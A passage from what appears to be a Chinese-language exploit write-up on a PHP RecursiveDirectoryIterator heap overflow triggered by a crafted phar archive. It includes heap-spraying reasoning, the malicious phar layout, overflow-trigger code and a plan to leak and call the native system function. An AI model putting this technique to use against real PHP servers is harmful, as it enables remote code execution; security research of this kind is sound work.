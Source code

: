 ```php
<?php
$a = 0x10040;
$i = 0;
while ($a < 0x20080) {
    $a += 320;
    if (($a & 0xff) == 0x40) {
        echo dechex($a)."\n";
        $i++;
    }
    $j++;
}

echo $i;
```

换言之只要让`sub_path`指向到这`51`中的其中一个就可以了。其中`0x10040`和`0x20080`之间有`205`这样的 bins, 这样我们有`1/4`的概率让`sub_path`指向正确的地方。再换言之，我们平均只需要尝试 4 次，就可以做到，事实也是如此。这也是解决第二问题的方法。

所以比较在意是拿到形如`10040, 20080, 300c0...` 这其中的一个。比较好的想法是我们最好的**新的 chunk**上进行操作，这样避免了之前 memory layout 对我们的影响。那最好的想法就是连续申请超过一个 chunk 的相关内存结构。这样我们总可以落在**新的 chunk**上，并且是一定大概率覆盖上述地址。比如这里我们需要申请超过`0x1999`个`zend_closure`个，在利用中我使用了`2024` (毕竟今年是 2024 嘿嘿).

**增强 conditional write**

对于第一个问题，我们同样在 heap 上放置大量我们可控的内存结构。而对于第二个问题，我们同样进行多次尝试。这里有一个特别的是，第二个问题解决方案中的多次尝试是确定性的。因为 heap 上的内存结构我们可控，使得我们可以在指定的位置上放置特定的内容来帮助我们判定`sub_path`有没有指向正确的位置。比如我们希望`sub_path`正好落在地址`0x10040`上，其中`0x10040`是我们可控的。我们可以在`0x10040`处写入指定的字符串，在进行 UAF 之前，我们通过读取`sub_path`的内容，来确保`sub_path`是指向正确的。

#### 利用细节

大致路线：

1.  通过 conditional read 泄露`system`函数地址。
2.  通过 conditional write 将用户闭包函数修改为 native 函数`system`

**构造恶意的 phar**

其中 phar 文件结构如下，命名为`m2.phar`.

```bash
├── CCCCCCC...CCC├
                 ├── AAAA...AAA
                 ├── BBBBBB...BBBBB
```

-   `CCCCCCC...CCC`文件夹长度为`329` , 因为`zend_closure`是我们后面需要的重要结构，它的大小为`320`. 考虑结尾的 NULL 字符。
-   `AAAA...AAA` 正常文件和文件名。`RecursiveDirectoryIterator->__construct`会读取第一个文件作为预备，我不希望在这一步发生 overflow.
-   `BBBBBB...BBBBB`文件名长度为`4096`

**触发 overflow**

我们通过以下代码来触发 overflow

```php
$it = new RecursiveDirectoryIterator("phar://./m2.phar");

// 定位到 `CCCCCCC...CCC` 文件夹
foreach ($it as $file) {
    if($file->isDir()) {
    	break;
    }
}

// 创建关于 `CCCCCCC...CCC` 的 RecursiveDirectoryIterator, 其 sub_path 被初始化为 `CCCCCCC...CCC`, 长度为 320.
$sub_it = $it->getChildren();

// 读取 `CCCCCCC...CCC` 中文件，读取到 `BBBBBB...BBBBB` 时，触发 overflow, 将 sub_path 第 2 个字节写 NULL.
foreach($sub_it as $file) {}
```